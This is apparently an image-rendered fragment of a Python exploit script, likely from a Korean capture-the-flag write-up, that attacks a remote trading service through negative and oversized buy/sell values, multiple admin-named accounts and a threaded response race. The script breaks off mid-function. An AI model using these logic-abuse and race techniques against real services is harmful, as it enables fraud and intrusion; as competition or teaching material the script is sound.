 ```python


buy('Ramon Pena', 18, 100, r)

for i in range(5):
    print(i)
    sell('Ramon Pena', 1, 7, r)

for i in range(46):
    sell(randstr + str(i), -1000, 100000000, r)

for i in range(46):
    sell(randstr + str(i), 1, 1, r)
    buy(randstr + str(i), 1, 1, r)




r2 = remote('[REDACTED]', [REDACTED])
r2.sendlineafter(':', '[REDACTED]')
create('admin2', 'admin2', r2)
login('admin2', 'admin2', r2)

r3 = remote('[REDACTED]', [REDACTED])
r3.sendlineafter(':', '[REDACTED]')
create('admin3', 'admin3', r3)
login('admin3', 'admin3', r3)


r4 = remote('[REDACTED]', [REDACTED])
r4.sendlineafter(':', '[REDACTED]')
create('admin4', 'admin4', r4)
login('admin4', 'admin4', r4)


#r2.recvuntil('>')

r.sendlineafter('>', '2')
r.sendlineafter('>', 'Ramon Pena')
r.sendlineafter('>', '1')



r2.sendlineafter('>', '7')
r2.sendlineafter('>', '4')

# r3.sendlineafter('>', '7')
# r3.sendlineafter('>', '4')

# r4.sendlineafter('>', '7')
# r4.sendlineafter('>', '4')

import threading

def x():
    tt = b''
    while True:
        ttt = r2.recvuntil('>')
        if tt != ttt:
            try:
                ttt.decode()
            except Exception as e:
                print(e)
```

[^1]: https://boehs.org/node/everything-i-know-about-the-xz-backdoor
[^2]: 원래 그랬는지는 잘 모르겠다. 